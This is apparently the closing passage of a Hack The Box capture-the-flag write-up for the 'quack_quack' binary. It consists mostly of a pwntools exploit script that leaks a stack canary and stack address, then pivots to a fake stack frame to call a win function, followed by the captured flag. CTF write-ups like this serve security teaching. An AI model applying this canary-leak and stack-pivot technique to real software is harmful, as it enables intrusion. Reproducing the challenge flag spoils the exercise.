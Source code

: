 Let's put this all together
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./quack_quack")
libc = ELF("./glibc/libc.so.6")
ld = ELF("./glibc/ld-linux-x86-64.so.2")

context.binary = exe
context.log_level = "debug"

global r
def conn():
    global r
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path])
    else:
        r = remote("addr", 1337)

    return r

BUF_OFF = 100
OFFSET_BSTACK = 96
STACK_DIFF = 128
WIN = exe.symbols["duck_attack"]

def main():
    conn()

    # We try to leak the canary and stack address by not printing the 0x00 byte (+2)
    payload = (b"Quack Quack \x00").rjust(BUF_OFF+2, b"A")
    r.sendafter(b"> ", payload)

    r.recvuntil(b"Quack Quack ")
    canary = u64(b"\x00" + r.recv(7))
    r.success(f"Leaked canary: {hex(canary)}")
    stack_addr = u64(r.recv(6) + b"\x00\x00") - STACK_DIFF + 8 # We need the canary to be at rbp-8
    r.success(f"Stack addr of second buf: {hex(stack_addr)}")

    #Fake stack to call the win function from main
    upper = flat([ 
        canary,
        0xdeadbeaf,
        WIN
    ]).ljust(OFFSET_BSTACK-8, b"A") #Found this offset the same way as before

    # Move stack to our fake replica
    payload = upper + flat([canary, stack_addr])
    r.sendafter(f"> ", payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

>HTB{\~c4n4ry_g035_qu4ck_qu4ck\~_bb5be49bc421f11646e85b598441c163}